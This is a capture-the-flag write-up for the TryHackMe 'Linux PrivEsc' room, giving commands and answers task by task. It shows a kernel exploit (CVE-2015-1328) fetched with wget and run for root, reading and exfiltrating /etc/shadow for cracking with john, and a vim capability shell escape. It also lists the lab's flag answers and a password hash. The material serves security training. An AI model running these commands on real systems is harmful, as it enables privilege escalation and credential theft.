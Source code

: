 ```yaml
---
description: https://tryhackme.com/room/linprivesc
---
```


# Linux PrivEsc

## Task 3 Enumeration

```bash
ssh karen@10.10.177.194
bash
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 19-41-42.png>)

#### What is the hostname of the target system?

```bash
hostname
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 19-44-57.png>)

{% hint style="success" %}
`wade7363`
{% endhint %}

#### What is the Linux kernel version of the target system?

```bash
uname -a
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 19-45-05.png>)

{% hint style="success" %}
`3.13.0-24-generic`
{% endhint %}

#### What Linux is this?

```bash
cat /etc/issue
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 19-51-18.png>)

{% hint style="success" %}
`Ubuntu 14.04 LTS`
{% endhint %}

#### What version of the Python language is installed on the system?

```bash
python -V
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 20-45-12.png>)

{% hint style="success" %}
`2.7.6`
{% endhint %}

#### What vulnerability seem to affect the kernel of the target system?

```bash
searchsploit -w 3.13.0
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 20-47-40.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-18 20-48-03.png>)

{% hint style="success" %}
`CVE-2015-1328`
{% endhint %}

## Task 5 Privilege Escalation: Kernel Exploits

#### find and use the appropriate kernel exploit to gain root privileges on the target system.

```bash
searchsploit -m 37292
cp 37272.c /var/www/html
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-09-30.png>)

```bash
wget http://10.6.9.176/37292.c -P /tmp
gcc -o /tmp/37292 /tmp/37292.c
/tmp/37292
bash
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-11-34.png>)

```bash
find / -type f -name flag1.txt 2>/dev/null
cat /home/matt/flag1.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-14-31.png>)

## Task 6 Privilege Escalation: Sudo

```bash
ssh karen@10.10.195.163
bash
```

#### How many programs can the user "karen" run on the target system with sudo rights?

```bash
sudo -l
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-27-30.png>)

{% hint style="success" %}
`3`
{% endhint %}

#### What is the content of the flag2.txt file?

```bash
sudo /usr/bin/find / -type f -name flag2.txt -exec cat {} \; 2>/dev/null
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-28-46.png>)

{% hint style="success" %}
`THM-402028394`
{% endhint %}

#### How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-33-46.png>)

{% hint style="success" %}
`sudo nmap --interactive`
{% endhint %}

#### What is the hash of frank's password?

```bash
sudo /usr/bin/less /etc/shadow
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-31-35.png>)

{% hint style="success" %}
`$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1`
{% endhint %}

## Task 7 Privilege Escalation: SUID

```bash
ssh karen@10.10.12.98
bash
```

#### Which user shares the name of a great comic book writer?

```bash
cat /etc/passwd | grep home
```

{% hint style="success" %}
`gerryconway`
{% endhint %}

#### What is the password of user2?

```bash
wget http://10.6.9.176/suid3num.py -P /tmp
python3 /tmp/suid3num.py
base64 /etc/passwd | base64 -d > /tmp/passwd
base64 /etc/shadow | base64 -d > /tmp/shadow
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-52-45.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-55-38.png>)

```bash
scp karen@10.10.12.98:/tmp/{passwd,shadow} .
unshadow passwd shadow > crackme
john --wordlist=/usr/share/wordlists/rockyou.txt crackme
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-55-28.png>)

{% hint style="success" %}
`Password1`
{% endhint %}

#### What is the content of the flag3.txt file?

```bash
find / -type f -name flag3.txt 2>/dev/null
base64 /home/ubuntu/flag3.txt | base64 -d
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 21-59-46.png>)

{% hint style="success" %}
`THM-3847834`
{% endhint %}

## Task 8 Privilege Escalation: Capabilities

```bash
ssh karen@10.10.241.117
bash
```

#### Complete the task described above on the target system

#### How many binaries have set capabilities?

```bash
getcap -r / 2>/dev/null
```

{% hint style="success" %}
`6`
{% endhint %}

#### What other binary can be used through its capabilities?

{% hint style="success" %}
`view`
{% endhint %}

#### What is the content of the flag4.txt file?

```bash
find / -type -name flag4.txt 2>/dev/null
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
cat /home/ubuntu/flag4.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-18 22-12-11.png>)

{% hint style="success" %}
`THM-9349843`
{% endhint %}

